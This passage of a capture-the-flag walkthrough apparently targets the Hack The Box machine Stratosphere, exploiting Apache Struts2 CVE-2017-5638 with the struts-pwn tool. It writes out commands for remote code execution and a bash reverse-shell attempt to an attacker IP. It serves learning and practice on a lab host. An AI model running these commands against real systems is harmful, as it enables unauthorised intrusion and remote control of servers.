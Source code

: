 If I search in any search engine for **"welcome.action java what is it"**, I find a resource **[How can I set the welcome page to a struts action?](https://stackoverflow.com/questions/1369591/action-extension-what-is-it){:target="_blank"}**, so I know it is implementing with **Struts** and if I search for any vulnerability in this framework I find a very interesting article, **[Exploiting Apache Struts2 CVE-2017-5638 - Lucideus Research](https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede){:target="_blank"}** where a **RCE** is explained. I can check with `nmap` if the web service is vulnerable, and it is. Now just by searching for **".action exploit github"** I find a **[struts-pwn](https://github.com/mazen160/struts-pwn){:target="_blank"}** repository from **Github**, I download it and I can also check with this exploit if it is vulnerable and I use some basic commands to check the **RCE**.

> **Apache Struts** is a free, open-source, MVC framework for creating elegant, modern Java web applications. It favors convention over configuration, is extensible using a plugin architecture, and ships with plugins to support REST, AJAX and JSON.

```bash
nmap -p8080 --script http-vuln-cve2017-5638 --script-args path=/Monitoring/ 10.10.10.64

wget https://raw.githubusercontent.com/mazen160/struts-pwn/master/struts-pwn.py
python struts-pwn.py
python struts-pwn.py -h

python struts-pwn.py -u 10.10.10.64 --check
python struts-pwn.py -u 10.10.10.64/Monitoring/example/Welcome.action --check

python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Login_input.action -c "whoami"
python struts-pwn.py -u 10.10.10.64/Monitoring/example/Welcome.action -c 'id'
python struts-pwn.py -u 10.10.10.64/Monitoring/example/Welcome.action -c 'which curl'
python struts-pwn.py -u 10.10.10.64/Monitoring/example/Welcome.action -c 'which nc'
```

<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_12.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I keep enumerating, I can verify that the **RCE** is running on the actual victim machine and not in a container, but if I try to get a **Reverse Shell** I am unsuccessful.

```bash
python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Login_input.action -c "cat /proc/net/fib_trie"
python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Login_input.action -c "cat /proc/net/fib_trie | grep \"host LOCAL\" -B 1"

python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Login_input.action -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"
```
